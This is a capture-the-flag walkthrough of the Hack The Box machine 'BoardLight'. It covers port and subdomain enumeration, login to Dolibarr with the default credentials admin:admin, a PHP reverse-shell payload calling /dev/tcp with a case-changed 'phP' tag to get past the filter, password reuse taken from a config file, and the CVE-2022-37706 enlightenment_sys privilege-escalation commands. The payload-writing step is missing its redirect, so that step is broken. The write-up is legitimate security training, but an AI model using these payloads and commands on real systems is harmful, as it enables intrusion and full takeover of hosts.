







# BoardLight machine from [Hack The Box](https://www.hackthebox.com/)

Target IP: 10.10.11.11 \
SO: Linux

## Enumeration and reconnaissance
The starting point as always, a simple and straightforward `nmap` scan, using the `--min-rate` arg to make it go faster and saving the results to a file for documentation purposes.

``` bash
sudo nmap -p- -sS -n --min-rate 5000 -Pn -vvv 10.10.11.11 -oG open_ports
```
We obtain a pair of open ports so proceed to conduct a deeper analysis on those ports (nothing intersting here)
```bash
nmap p22,80 -sCV -vvv -n --min-rate 3000 10.10.11.11 -oN target_ports
```
<div align="center">

|PORT | Status | Service |
| :--: | :--: | :--: |
| 22 | open | SSH |
| 80 | open | HTTP |


</div>

While we scan the `Apache` service running on port 80, `http://10.10.11.11`, we use `gobuster` for endpoints discovery
```bash
gobuster dir -u http://10.10.11.11/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x php,txt -q
# we got a few results, but nothing actually relevant
```



After a deep analysis of the web, trying every single field for different vulnerabilities like SQLi or XSS I got under the impresion there are still assets to discover abd since the ones we got with gobuster aren't useful, our best choice is to search for subdomains. To do so we are going to do fuzzing with `ffuf`. But before let's add `board.htb` to our `/etc/hosts`

```bahs
echo "10.10.11.11    board.htb" >> /etc/hosts
```


### Subdomany discovery

```bash
# Let's do fuzzing to search for subdomains
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://board.htb -H "Host: FUZZ.board.htb" -t 200 -fs 15949 -ic -c -v
```
`-ic:` ignore wordlist comments \
`-c:` enable color \
`-v:` verbose mode \
`-fs <NUMBER>:` filter HTTP response size, can be a comma separated list and support ranges.

Using `curl` and the `wc` command with the `-c` flag to count the bytes we can get the exact response size of a success response: `curl http://board.htb | wc -c` --> 15949

We found the following subdomain: `crb.board.htb`. In tech terms CRM means Customer Relationship Managment. It refers to the set of practices and business strategies focused on the relationship with the customer. So typically CRM is a system for managing everything customer-related. 
By opening that website in the browser we find a login panel and it seems to be built upon [Dolibarr](https://www.dolibarr.org/).
A simple google search shows us that default credentials are, surprinsingly, __admin:admin__.

Now that we've managed to get past the loggin panel, we just need to find a way to exploit that access. This is the funny part.

## Gaining access to target machine

Turns out we can create a new site with the UI and create also different pages for that site, take a look at the PoC below

<style>
.center-60 {
  display: block;
  margin-left: auto;
  margin-right: auto;
  width: 70%;
}
</style>




So now we create a reverse shell payload
```php
<?phP system("bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'") ;?>
```


**NOTE:** very important, take a look at how I intentionally wrote "phP". That's to avoid the Dolibarr service complaining for me creating php code. Basically you can use any misspelling like Php, pHp, PHp, etc., to bypass that and get your code to execute.

## Retriving user flag
The user `www-data` does not contain any flag. And inside `/home` we can find another one called `larissa` but we don't have their credentials.

The command used to search for db_passwords/db_users:
```bash
grep -rnail "DB_USER\|DB_PASSWORD" --exclude "*.lang" --exclude "*.py" --exclude="*.example" --exclude="*.old"
```

Within the output I found a file `conf/conf.php`, which after looking [documentation](https://wiki.dolibarr.org/index.php/Configuration_file) turns out is created automatically when installing Dolibarr. And it contains a password!!



Using the password previously found we can log into mysql
```bash
mysql -udolibarr -p <previously_founded_passwd>
```
After searching for a while I was only able to find 2 encrypted passwords with bcript format. I wasn't able to crack none of those using `jhontheripper` with the `rockyou.txt` wordlist. So maybe the DB is a waste of time...

Let's try to log into the other user `larissa` with the same password we used to log into mysql... Success!!!
`su larissa`
Now we can retrieve the user flag




## Escalating privilges
Once the user flag was compromised we moved into compromising the system/ root user. After running `find / -perm -4000 2>/dev/null` to see which programs we can run with SUID we found out the following ones
```
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_system
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
```
Doing a researched I found out CVE-2022-37706 and this amazing [GitHub repo](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main) from @MaherAzzouzi where it explains the vulnerability itself.
He also added an [exploit.sh](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh) in case you wanna use that one. In my case I used a slightly different version and ran the following commands

```bash
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"
# now I write the payload into /tmp/explot
echo "echo 'pwned!'; whoami; chmod u+s /bin/bash"
chmod a+x /tmp/exploit
# now let's execute the binary with SUID permission
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
As you can see on the image below, the command throws the error "can't find in /etc/fstab" but by that time the payload already did the trick as you can see. Now we just run `bash -p` and sice we now have SUID permission we've effecitvely compromised the system.




## Summary


We were able to compromise this machine because of the following vulnerabilities:

* Use of default credentials for the crm loggin panel.
* Use of an outdated and vulnerable Dolibarr version which allowed for RCE and a reverse shell.
* Use of a password in plain text within a default config file which allowed to pivot into another user.
* The user can run `enlightenment/utils/enlightenment_sys` with SUID permission, which allows to exploit a vulnerability that grant us root access.
